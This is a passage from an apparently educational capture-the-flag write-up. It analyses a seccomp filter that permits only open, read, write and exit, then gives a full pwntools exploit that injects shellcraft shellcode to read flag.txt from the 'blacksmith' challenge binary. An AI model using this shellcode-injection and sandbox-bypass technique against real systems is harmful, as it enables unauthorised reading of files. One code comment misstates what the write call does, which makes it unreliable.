 Cool we see that 

```
1. It checks if the architecture isn't x86_64 and it kills the program process
2. Checks if A is equal to sys_number
3. Checks if A is less than 0x4000000 which then jumps to rule 6
4. It checks if A is read, write, open, exit it allows it
```

So basically with this we won't be able to get a shell cause shellcode uses like execve, and various other linux syscall convention

But the only calling convention allowed is `read, write, open`

This is also good cause we know the path of the flag already from the description of the challenge

And we can bascially do this 

```
1. Open the flag.txt file
2. Read the content of it 
3. Write those bytes to stdout
```

Now i'll be using shellcraft to get various shellcodes to be used

Checking the linux man usage of open, read & write helped also [Resource](https://linux.die.net/man/)

So here's the exploit

```
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
    
# Binary filename
exe = './blacksmith'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# Shellcode
shellcode = asm(shellcraft.open('flag.txt')) #opens up the flag
shellcode += asm(shellcraft.read('3', 'rsp', '0x100')) #read the content and save it in $rsp
shellcode += asm(shellcraft.write('1', 'rsp', 'rax')) #write the value for $rsp to $rax

# Send the payload
io.sendlineafter(b'>', '1')
io.sendlineafter(b'>', '2')
io.sendlineafter(b'>', flat(shellcode))

print(io.recv())

```